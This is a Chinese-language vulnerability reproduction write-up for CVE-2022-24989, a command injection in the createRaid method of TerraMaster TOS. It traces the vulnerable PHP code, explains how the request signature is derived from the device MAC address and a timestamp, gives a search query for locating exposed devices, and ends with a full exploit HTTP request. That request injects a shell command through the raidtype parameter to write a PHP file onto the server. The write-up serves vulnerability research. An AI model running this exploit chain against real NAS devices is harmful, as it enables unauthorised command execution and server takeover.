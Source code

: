 # TerraMaster TOS createRaid 远程命令执行漏洞 CVE-2022-24989

## 漏洞描述

TerraMaster TOS mobile.class.php文件的createRaid方法存在远程命令执行漏洞 ，攻击者配合 CVE-2022-24990漏洞可以获取服务器权限

## 漏洞影响

<a-checkbox checked>TerraMaster TOS < 4.2.31 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>"TerraMaster" && header="TOS"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1647617923369-02e2a7e7-7705-4e12-a021-49ca44300125-20220319162830411.png)

我们查看 `mobile.class.php文件`中的 `createRaid方法`, 其中参数`raidtype和参数diskstring`均为可控参数

![img](/assets/PeiQi-Wiki/img/1647671945531-f5329a4c-12dd-4957-b438-3001e66f146b.png)

注意这一行代码并跟踪 `volume_make_from_disks` 方法

```php
$ret = $vol->volume_make_from_disks($this->in['raidtype'], $filesystem, $disks, $volume_size);
```

![img](/assets/PeiQi-Wiki/img/1647672020849-c216e10d-2c24-4476-8bf9-ef0936ea39cb.png)

可以看到方法调用中的 `$levek` 参数是可控参数，传入 `_backexec`方法中，可导致命令拼接执行恶意命令

![img](/assets/PeiQi-Wiki/img/1647672331076-640ed4a8-edbd-458b-a6c8-30e68b70ec64.png)

回到 `mobile.class.php` 文件开头的定义

```php
static $notCheck = [
        "webNasIPS", "getDiskList", "createRaid", "getInstallStat", "getIsConfigAdmin", "setAdminConfig", "isConnected",'createid',
        'user_create','user_bond','user_release','login', 'logout', 'checkCode', "wapNasIPS"
    ];
    //不验证头信息是否匹配...
    static $notHeader = ["fileDownload", "videoPlay", "imagesThumb", "imagesView", "fileUpload", "tempClear", "wapNasIPS", "webNasIPS", "isConnected"];
    private static $U = null;
    private static $filter = array(".", "..", ".svn", "lost+found", "aquota.group", "aquota.user");
```

发现 `$notHeader` 数组中并不存在方法名 `createRaid`，看一下 api.php 中的定义

![img](/assets/PeiQi-Wiki/img/1647676041684-2edf4cd9-527a-4032-b467-181f50477dd7.png)

```php
$instance = new $class();
if (!in_array($function, $class::$notHeader)) {
    #防止请求重放验证...
    if (tos_encrypt_str($_SERVER['HTTP_TIMESTAMP']) != $_SERVER['HTTP_SIGNATURE'] || $_SERVER['REQUEST_TIME'] - $_SERVER['HTTP_TIMESTAMP'] > 300) {
        $instance->output("Illegal request, timeout!", 0);
    }
}
$instance->$function();
```

由于实例化的过程中存在验证请求头，所以需要通过if判断才能调用该方法进行命令执行

```php
if (tos_encrypt_str($_SERVER['HTTP_TIMESTAMP']) != $_SERVER['HTTP_SIGNATURE'] || $_SERVER['REQUEST_TIME'] - $_SERVER['HTTP_TIMESTAMP'] > 300) {
        $instance->output("Illegal request, timeout!", 0);
    }
```

看到这里主要是两个参数值得关注: `HTTP_TIMESTAMP` 和 `HTTP_SIGNATURE`

跟踪方法 tos_encrypt_str 在源码中并没有找到，我们查看下php扩展函数列表

![img](/assets/PeiQi-Wiki/img/1647677029047-a3d7d35e-581c-46b3-af90-42299e45ec6f.png)

![img](/assets/PeiQi-Wiki/img/1647676739320-049b5cab-1197-4c01-a34e-df83e789fb8f.png)

下载这个 so文件使用 IDA打开 搜索字符串 `tos_encrypt_str`

![img](/assets/PeiQi-Wiki/img/1647676834698-5168b3ee-7126-499e-91c5-80b77d9cf0e2.png)

![img](/assets/PeiQi-Wiki/img/1647676935156-1f51cd3b-0c11-4eaa-afcf-18851d93f0d3.png)

跟进方法 `get_mac_addr` 

![img](/assets/PeiQi-Wiki/img/1647676961925-d1d9b839-9594-45bf-ab6e-4dac2fd11300.png)

这里可以看到获取 `eth0网卡`的 `mac`，再经过 `php_sprintf`， 跟进下 `&ubk_38fa`

![img](/assets/PeiQi-Wiki/img/1647677368472-e0c3db7d-e2a5-4b09-aa14-981b183931ef.png)

实际上就是获取了 mac的最后3个字节, 例如mac地址为: 11.22.33.44.55.66, 经过后获取为 445566

![img](/assets/PeiQi-Wiki/img/1647677479277-7433cd43-6bb0-4451-b9ef-bd27b78a585b.png)

回到函数执行的地方，我们就可以知道，实际上这个函数等同于

```php
# mac addr 11:22:33:44:55:66
tos_encrypt_str(xxxxxx) = md5(445566xxxxxx)
```

看看之前的判断代码

```php
$instance = new $class();
if (!in_array($function, $class::$notHeader)) {
    #防止请求重放验证...
    if (tos_encrypt_str($_SERVER['HTTP_TIMESTAMP']) != $_SERVER['HTTP_SIGNATURE'] || $_SERVER['REQUEST_TIME'] - $_SERVER['HTTP_TIMESTAMP'] > 300) {
        $instance->output("Illegal request, timeout!", 0);
    }
}
$instance->$function();
```

TIMESTAMP参数为当前时间戳，这里的判断逻辑就很清楚了

```php
md5(mac地址后三字节 + 当前时间戳) = $_SERVER['HTTP_SIGNATURE']
```

通过之前提到的漏洞 `CVE-2022-24990` 泄漏的 PWD和mac地址，我们就可以利用这个命令执行漏洞了, 通过刚刚的逻辑写POC获取信息

![image-20220320004751660](/assets/PeiQi-Wiki/img/image-20220320004751660.png)

在发送请求包写入 php恶意文件

```php
POST /module/api.php?mobile/createRaid HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Authorization: $1$hq6UR8XW$ti.QT5f9wQQg1PcJFWdub/
Cache-Control: max-age=0
Content-Length: 82
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=f1d33267c0ee0c34e9a348402205e272; tos_visit_time=1647670158
Signature: e856010781d0efd904d57ac40517859c
Timestamp: 1647678138
Upgrade-Insecure-Requests: 1
User-Agent: TNAS

raidtype=%3Becho+%22%3C%3Fphp+phpinfo%28%29%3B%3F%3E%22%3Evuln.php&diskstring=XXXX
```

![img](/assets/PeiQi-Wiki/img/1647678418656-fda11f34-0721-4123-999d-16492413a06d.png)

访问写入的文件

![img](/assets/PeiQi-Wiki/img/1647678464951-45d58af7-9f32-4f0b-9d63-2059eb36682c.png)